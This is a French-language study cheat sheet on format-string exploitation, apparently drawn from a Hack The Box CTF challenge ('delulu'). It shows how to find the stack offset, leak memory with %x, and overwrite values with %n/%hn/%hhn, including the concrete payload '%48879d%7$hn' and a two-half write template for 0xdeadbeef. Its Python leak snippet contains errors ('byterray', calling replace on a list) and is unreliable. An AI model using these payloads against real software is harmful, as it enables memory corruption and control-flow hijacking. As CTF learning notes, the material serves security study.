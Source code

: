 # Documentation 

- https://axcheron.github.io/exploit-101-format-strings/
- https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
- https://github.com/4nuit/Writeup/tree/master/2024/HTB_CyberApocalypse/pwn/pwn_delulu

## Trouver un offset

```bash
%400x
%400d
```

-> vérifier avec gdb le contrôle de eip

## Lire en mémoire 


```python 
print('%08x-'*200) #exploit en hex
l=s.split().replace("-"," ") #s=mem exploit 

m=[]
for i in range(len(l)):
        ba=byterray.fromhex(l[i])
        ba.reverse() #big 
        m.append(''.join(format(x,'c') for x in ba))
```

## Ecrire en mémoire 
 
- %n écrit sur 4 bytes-> adresse énorme en hexa 
- on écrit par groupe de 2 bytes avec %hn
- possible d'écrire byte par byte avec %hhn

### Déterminer le n

On a dans le code d'une part:

![fmt](./images/fmt.png)


D'autre part:

```bash
The D-LuLu face identification robot will scan you shortly!

Try to deceive it by changing your ID.

>> 
[!] Checking.. eb31dbb0.0.96714887.10.7fffffff.1337babe.eb31fcd0.252e7825.2e78252e.78252e78.
[-] ALERT ALERT ALERT ALERT

┌─[night@night-20b7s2ex01]─[~/htb/pwn/delulu]
└──╼ 5 fichiers, 36Kb)─$ python -c "print('%x.'*20)" | ./delulu 
```

- repérer le check visuellement dans la pile: **ici l'offset est de 6**

- obtenir l'addresse du check: **ici le code est bien fait: var40=&var38 est stockée juste après donc le $n=7**

Ainsi pour modifier les lows bytes du check `babe` en `beef`:

```bash
rax2 0xbeef
48879
```

```c
%48879d%7$hn
```

### Call free / malloc

print 2**16-1

```
%100000x
```

### Exploit

0xdeadbeef = 0xdead (high) "+" 0xbeef (low)

- `[hexa à écrire]%x [n contrôlé]$n` 

**ou**

- `[endian(adresse écriture low) + endian(addresse écriture high = low +2)]%[hexa low à écrire - 8]x%[n contrôlé]$hn%[hexa abs((low-8)-(high-8)) à écrire]x%[n+1] $hn"')`


**ou** en 4 avec %hhn ...

